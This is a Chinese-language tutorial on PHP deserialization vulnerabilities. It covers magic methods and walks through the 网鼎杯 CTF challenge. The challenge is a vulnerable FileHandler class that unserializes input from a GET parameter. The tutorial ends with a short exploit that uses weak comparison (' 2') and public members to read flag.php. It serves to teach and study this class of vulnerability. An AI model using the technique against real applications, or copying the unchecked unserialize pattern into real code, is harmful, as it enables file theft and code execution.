

# PHP反序列化漏洞


序列化与反序列化的关系



## PHP反序列化漏洞

原理：未对用户输入的序列化字符串进行检测，导致攻击者可以控制反序列化过程，从而导致`代码`

`执行`，`SQL注入`，`目录遍历`等不可控后果。在反序列化的过程中自动触发了某些魔术方法。当进行

反序列化的时候就有可能会触发对象中的一些魔术方法。

```php
serialize() // 将一个对象转换成一个字符串,序列化
unserialize() // 将字符串还原成一个对象,反序列化
```

常见的魔术方法

```php
__construct() // 创建对象时触发
__destruct() // 对象被销毁时触发
__call() // 在对象上下文中调用不可访问的方法时触发
__callStatic() // 在静态上下文中调用不可访问的方法时触发
__get() // 用于从不可访问的属性读取数据
__set() // 用于将数据写入不可访问的属性
__isset() // 在不可访问的属性上调用 isset()或 empty()触发
__unset() // 在不可访问的属性上使用 unset()时触发
__invoke() // 当脚本尝试将对象调用为函数时触发
```

触发：`unserialize`函数的变量可控，文件中存在可利用的类。

## 反序列化

### 无类

对于无类的反序列化来说，非常简单，直接根据需要进行反序列化即可。

```php
<?php
$str = "123love456";
$flag = serialize($str);
echo $flag; // s:10:"123love456"
echo unserialize($flag); // 123love456
?>
```

### 有类

需要根据相应的类名，相应属性，去序列化相应的类

#### 网鼎杯

```php
 <?php

include("flag.php");

highlight_file(__FILE__);

class FileHandler {

    protected $op;
    protected $filename;
    protected $content;

    function __construct() {
        $op = "1";
        $filename = "/tmp/tmpfile";
        $content = "Hello World!";
        $this->process();
    }

    public function process() {
        if($this->op == "1") {
            $this->write();
        } else if($this->op == "2") {
            $res = $this->read();
            $this->output($res);
        } else {
            $this->output("Bad Hacker!");
        }
    }

    private function write() {
        if(isset($this->filename) && isset($this->content)) {
            if(strlen((string)$this->content) > 100) {
                $this->output("Too long!");
                die();
            }
            $res = file_put_contents($this->filename, $this->content);
            if($res) $this->output("Successful!");
            else $this->output("Failed!");
        } else {
            $this->output("Failed!");
        }
    }

    private function read() {
        $res = "";
        if(isset($this->filename)) {
            $res = file_get_contents($this->filename);
        }
        return $res;
    }

    private function output($s) {
        echo "[Result]: <br>";
        echo $s;
    }

    function __destruct() {
        if($this->op === "2")
            $this->op = "1";
        $this->content = "";
        $this->process();
    }
}

function is_valid($s) {
    for($i = 0; $i < strlen($s); $i++)
        if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125))
            return false;
    return true;
}

if(isset($_GET{'str'})) {
    $str = (string)$_GET['str'];
    if(is_valid($str)) {
        $obj = unserialize($str);
    }
}
```

涉及：反序列化魔术方法调用，弱类型绕过，ascii绕过

使用该类对 flag 进行读取，这里面能利用的只有`__destruct`函数（析构函数）。

`__destruct` 函数对`$this->op` 进行了`===`判断并内容在2字符串时会赋值为1，`process`函数中使用`==`对`$this->op`进行判断（为 2 的情况下才能读取内容），因此这里存在弱类型比较，可以使用数字2或字符串`' 2'`绕过判断。

`is_valid`函数还对序列化字符串进行了校验，因为成员被`protected`修饰，因此序列化字符串中会出现 `ascii`为0的字符。

经过测试，在 `PHP7.2+`的环境中，使用 `public` 修饰成员并序列化，反序列化后成员也会被 `public` 覆盖修饰。

##### 通关的exp

```php
<?php
class FileHandler {

    public $op=" 2";
    public $filename="flag.php";
    public $content=" ";

}
$flag = new FileHandler();
echo serialize($flag);
?>
```

## 知识补充

在`PHP`中：

`==`是值相等，`===`是类型和值都要相等

JavaScript在比较的时候如果是`==`会先做类型转换，再判断值得大小，如果是`===`类型和值必须都相等。
